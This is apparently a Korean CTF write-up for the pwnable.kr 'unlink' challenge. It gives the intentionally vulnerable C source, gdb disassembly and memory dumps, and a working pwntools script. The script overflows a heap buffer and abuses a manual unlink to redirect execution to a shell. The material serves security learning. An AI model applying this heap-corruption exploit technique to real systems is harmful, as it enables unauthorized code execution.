

## 문제



unlink 취약점을 공부하는 문제.

```console
unlink@prowl:~$ ls -l
total 20
-r--r----- 1 root unlink_pwn   49 Nov 23  2016 flag
-rw-r----- 1 root unlink_pwn  543 Nov 28  2016 intended_solution.txt
-r-xr-sr-x 1 root unlink_pwn 7540 Nov 23  2016 unlink
-rw-r--r-- 1 root root        749 Nov 23  2016 unlink.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

## 풀이

```c-objdump
   0x080485f2 <+195>:   call   0x8048504 <unlink>
   0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
```

`main` 함수를 살펴보자. \
`main+208`에서 `ecx`에 `*(ebp-4)` 값을 넣고,
`main+212`에서 `esp`에 `ecx-4` 값을 넣고 있다.

`shell`의 주소가 있는 공간의 주소에 4를 더하여 `ebp-4`에 넣으면
`eip` 값을 `shell`로 바꿀 수 있다.
4를 더하는 이유는 `esp`에 값을 넣을 때 4를 빼기 때문이다.

그리고 바이너리를 실행할 때 `A`의 주소값을 알려주기 때문에 `ebp` 값도 알 수 있다.

```c-objdump
(gdb) b *main+200
Breakpoint 1 at 0x80485f7
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/unlink/unlink
here is stack address leak: 0xffc5c214
here is heap address leak: 0x829b410
now that you have leaks, get shell!
AAAA

Breakpoint 1, 0x080485f7 in main ()
(gdb) print $ebp
$1 = (void *) 0xffc5c228
(gdb) x/100x 0x829b410
0x829b410:      0x0829b440      0x00000000      0x41414141      0x00000000
0x829b420:      0x00000000      0x00000019      0x0829b440      0x0829b410
0x829b430:      0x00000000      0x00000000      0x00000000      0x00000019
0x829b440:      0x00000000      0x0829b410      0x00000000      0x00000000
```

확인하면 `ebp` 값은 `&A` 값에서 20만큼 더한 값임을 알 수 있다. \
그리고 `A->buf`와 `B`의 주소 차이가 16만큼인 것도 알 수 있다.

마지막으로 `shell`의 주소를 담을 공간과 그 주소가 필요한데,
이는 유저가 값을 수정할 수 있는 `A-buf` 덕분에 해결된다.

```c
stack = &A;
heap = A;

buf = heap+8
ebp = stack+20;

*(buf) = shell;    // A->buf
*(buf+16) = buf+4; // B->fd
*(buf+20) = ebp-4; // B->bk

*(buf+8) = ebp;   // FD->bk = BK;
*(ebp-4) = buf+4; // BK->fd = FD;

ecx = *(ebp-4); // buf+4
esp = ecx-4;    // buf
eip = *esp;     // shell
```

풀이과정을 c로 옮겨서 보면 이렇다.

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

python으로 풀이를 적으면 이렇다.

## 후기

어렵다
